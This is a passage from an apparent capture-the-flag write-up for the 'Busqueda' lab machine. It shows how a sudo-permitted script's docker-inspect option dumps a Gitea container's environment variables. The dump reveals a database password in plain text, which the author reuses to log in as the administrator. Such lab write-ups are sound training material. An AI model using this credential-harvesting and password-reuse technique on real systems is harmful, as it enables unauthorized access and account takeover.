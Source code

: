 Though now you might be wondering what we're even looking for with `docker-inspect`. The first place I like to check would be the environment variables of the container. Sensitive information can sometimes be stored here, so it's worth checking. To get the environment variables, our format is going to be the following:

```
'{{json .Config.Env}}'
```

Now we just pass this to the `system-checkup` script:

```
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config.Env}}' gitea
```

Finally, we get back the environment variables of the `gitea` container. 

```json
[
    "USER_UID=115",
    "USER_GID=121",
    "GITEA__database__DB_TYPE=mysql",
    "GITEA__database__HOST=db:3306",
    "GITEA__database__NAME=gitea",
    "GITEA__database__USER=gitea",
    "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "USER=git",
    "GITEA_CUSTOM=/data/gitea"
]
```

Another password. It would be a fair assumption to assume that this password belongs to the `administrator` user. We know that they are a user of the `Gitea` repository that we found earlier, so let's see if we can sign into their account. 

![administrator gitea login](images/busqueda/busqueda-administrator-login.png)

Just like that, we're in... again. This time, we can see *another* repository: `administrator/scripts`. In here, we can find the source code of the scripts that the `svc` user can run as `root`. 

## Relative Paths
